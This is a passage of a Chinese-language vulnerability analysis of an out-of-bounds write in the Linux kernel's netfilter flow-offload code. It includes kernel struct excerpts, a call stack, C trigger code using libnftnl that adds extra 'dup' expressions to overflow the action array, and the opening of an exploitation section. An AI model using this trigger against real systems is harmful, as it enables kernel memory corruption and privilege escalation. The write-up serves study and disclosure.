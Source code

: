 ```c
		__be16				l3num;
		u8				protonum;
	} dep;
	unsigned int				num_actions;
	struct net				*net;
	struct nft_offload_reg			regs[NFT_REG32_15 + 1];
};
```

调用栈：

- nft_flow_rule_create
  - nft_dup_netdev_offload/nft_fwd_netdev_offload
    - nft_fwd_dup_netdev_offload

### netfilter的使用以及触发

参考链接：https://www.openwall.com/lists/oss-security/2022/02/21/2

该邮件说明了如何用C语言的libmnl和libnftnl 库来使用netfilter，主要触发漏洞的点在于添加的rule是否存在`NFT_OFFLOAD_F_ACTION`  flag 标记。只有`nftnl_expr_alloc("immediate"); `添加的rule才有`NFT_OFFLOAD_F_ACTION`  标记：

```c
for(int i = 0; i < legit_writes; i++) {//如下添加expr 不会越界
    exprs[exprid] = nftnl_expr_alloc("immediate");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_IMM_DREG, NFT_REG_1);
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_IMM_DATA, 1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
    exprs[exprid] = nftnl_expr_alloc("dup");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_DUP_SREG_DEV, NFT_REG_1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
}
//如下添加expr 会越界
for (int unaccounted_dup = 0; unaccounted_dup < oob_writes; unaccounted_dup++) {
    exprs[exprid] = nftnl_expr_alloc("dup");
    nftnl_expr_set_u32(exprs[exprid], NFTNL_EXPR_DUP_SREG_DEV, NFT_REG_1);
    nftnl_rule_add_expr(rule, exprs[exprid]);
    exprid++;
}
```

## 漏洞利用

漏洞利用不是很稳定，但利用技术很精妙，漏洞是越界固定偏移的位置写一个不可控指针，个人认为利用难度非常高。简单分析一下技术手法把。根据漏洞的代码，可以知道，每次越界只能写一个整数(id，固定为4或5)和一个指针(*dev)，其中指针指向`struct net_device`  结构体。我们这里只关注dev 指针写:

```c
int nft_fwd_dup_netdev_offload(struct nft_offload_ctx *ctx,
			       struct nft_flow_rule *flow,
			       enum flow_action_id id, int oif)
{
	··· ···
	entry = &flow->rule->action.entries[ctx->num_actions++];//越界
	entry->id = id;
	entry->dev = dev; //固定偏移写一个堆地址，dev 为struct net_device 结构体
	··· ···
}
```
